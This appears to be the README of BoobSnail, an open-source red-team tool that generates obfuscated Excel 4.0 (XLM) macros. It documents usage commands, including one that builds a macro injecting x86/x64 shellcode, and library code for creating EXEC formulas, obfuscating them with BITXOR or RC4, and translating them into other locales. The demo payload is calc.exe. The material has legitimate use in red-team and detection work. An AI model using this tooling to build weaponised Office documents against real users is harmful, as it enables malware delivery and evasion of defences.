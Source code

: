 ![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)

Follow us on [Twitter](https://twitter.com/stm_cyber)!

# BoobSnail
BoobSnail allows generating XLM (Excel 4.0) macro. Its purpose is to support the RedTeam and BlueTeam in XLM macro generation.
Features:
- various infection techniques;
- various obfuscation techniques;  
- translation of formulas into languages other than English;
- can be used as a library - you can easily write your own generator.
 
## Building and Running
Tested on: Python 3.8.7rc1
```
pip install -r requirements.txt
python boobsnail.py
___.                ___.     _________             .__.__
\_ |__   ____   ____\_ |__  /   _____/ ____ _____  |__|  |
 | __ \ /  _ \ /  _ \| __ \ \_____  \ /    \__  \ |  |  |
 | \_\ (  <_> |  <_> ) \_\ \/        \   |  \/ __ \|  |  |__
 |___  /\____/ \____/|___  /_______  /___|  (____  /__|____/
     \/                  \/        \/     \/     \/
     Author: @_mzer0 @stm_cyber
     (...)
```
## Generators usage

```
python boobsnail.py <generator> -h
```

To display available generators type:
```
python boobsnail.py
```

### Examples
Generate obfuscated macro that injects x64 or x86 shellcode:
```
python boobsnail.py Excel4NtDonutGenerator --inputx86 <PATH_TO_SHELLCODE> --inputx64 <PATH_TO_SHELLCODE> --out boobsnail.csv
```

Generate obfuscated macro that runs calc.exe:
```
python boobsnail.py Excel4ExecGenerator --cmd "powershell.exe -c calc.exe" --out boobsnail.csv
```
### Saving output in Excel
1. Dump output to CSV file.
2. Copy content of CSV file.
3. Run Excel and create a new worksheet.
4. Add new Excel 4.0 Macro (right-click on Sheet1 -> Insert -> MS Excel 4.0 Macro).
5. Paste the content in cell A1 or R1C1.
6. Click Data -> Text to Columns.
7. Click Next -> Set Semicolon as separator and click Finish.

## Library usage
BoobSnail shares the excel4lib library that allows creating your own Excel4 macro generator.
excel4lib contains few classes that could be used during writing generator:
- excel4lib.macro.Excel4Macro - allows to defining Excel4 formulas, values variables;
- excel4lib.macro.obfuscator.Excel4Obfuscator - allows to obfuscate created instructions in Excel4Macro;
- excel4lib.lang.Excel4Translator - allows translating formulas to another language.

The main idea of this library is to represent Excel4 formulas, variables, formulas arguments, and values as python objects.
Thanks to that you are able to change instructions attributes such as formulas or variables names, values, addresses, etc. in an easy way.
For example, let's create a simple macro that runs calc.exe
```python
from excel4lib.macro import *
# Create macro object
macro = Excel4Macro("test.csv")
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc.exe";
=EXEC(cmd);
```
Now let's say that you want to obfuscate your macro. To do this you just need to import obfuscator and pass it to the Excel4Macro object:
```python
from excel4lib.macro import *
from excel4lib.macro.obfuscator import *
# Create macro object
macro = Excel4Macro("test.csv", obfuscator=Excel4Obfuscator())
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
For now excel4lib shares two obfuscation classes:
- excel4lib.macro.obfuscator.Excel4Obfuscator uses Excel 4.0 functions such as BITXOR, SUM, etc to obfuscate your macro;
- excel4lib.macro.obfuscator.Excel4Rc4Obfuscator uses RC4 encryption to obfusacte formulas.

As you can see you can write your own obfuscator class and use it in Excel4Macro.

Sometimes you will need to translate your macro to another language for example your native language, in my case it's Polish. With excel4lib it's pretty easy.
You just need to import Excel4Translator class and call set_language
```python
from excel4lib.macro import *
from excel4lib.lang.excel4_translator import *
# Change language
Excel4Translator.set_language("pl_PL")
# Create macro object
macro = Excel4Macro("test.csv", obfuscator=Excel4Obfuscator())
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc.exe";
=URUCHOM.PROGRAM(cmd);
```
For now, only the English and Polish language is supported. If you want to use another language you need to add translations in the excel4lib/lang/langs directory.

For sure, you will need to create a formula that takes another formula as an argument. You can do this by using Excel4Macro.argument function.
```python
from excel4lib.macro import *
macro = Excel4Macro("test.csv")
# Add variable called cmd with value "calc" to the worksheet
cmd_1 = macro.variable("cmd", "calc")
# Add cell containing .exe as value
cmd_2 = macro.value(".exe")
# Create CONCATENATE formula that CONCATENATEs cmd_1 and cmd_2
exec_arg = macro.argument("CONCATENATE", cmd_1, cmd_2)
# Pass CONCATENATE call as argument to EXEC formula
macro.formula("EXEC", exec_arg)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc";
.exe;
=EXEC(CONCATENATE(cmd,R2C1));
```
As you can see ".exe" string was passed to CONCATENATE formula as R2C1. 
R2C1 is address of ".exe" value (ROW number 2 and COLUMN number 1).
excel4lib returns references to formulas, values as addresses. References to variables are returned as their names.
You probably noted that Excel4Macro class adds formulas, variables, values to the worksheet automaticly in order
in which these objects are created and that the start address is R1C1.
What if you want to place formulas in another column or row?
You can do this by calling Excel4Macro.set_cords function.
```python
from excel4lib.macro import *
macro = Excel4Macro("test.csv")
# Column 1
# Add variable called cmd with value "calc" to the worksheet
cmd_1 = macro.variable("cmd", "calc")
# Add cell containing .exe as value
cmd_2 = macro.value(".exe")
# Column 2
# Change cords to columns 2
macro.set_cords(2,1)
exec_arg = macro.argument("CONCATENATE", cmd_1, cmd_2)
# Pass CONCATENATE call as argument to EXEC formula
exec_call = macro.formula("EXEC", exec_arg)
# Column 1
# Back to column 1. Change cords to column 1 and row 3
macro.set_cords(1,3)
# GOTO EXEC call
macro.goto(exec_call)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc";=EXEC(CONCATENATE(cmd,R2C1));
.exe;;
=GOTO(R1C2);;
```

## Author
[mzer0](https://twitter.com/_mzer0) from [stm_cyber](https://twitter.com/stm_cyber) team!

## Articles
[The first step in Excel 4.0 for Red Team](https://blog.stmcyber.com/excel-4-0-for-red-team/)

[BoobSnail - Excel 4.0 macro generator](https://blog.stmcyber.com/boobsnail-excel-4-0-macro-generator/)
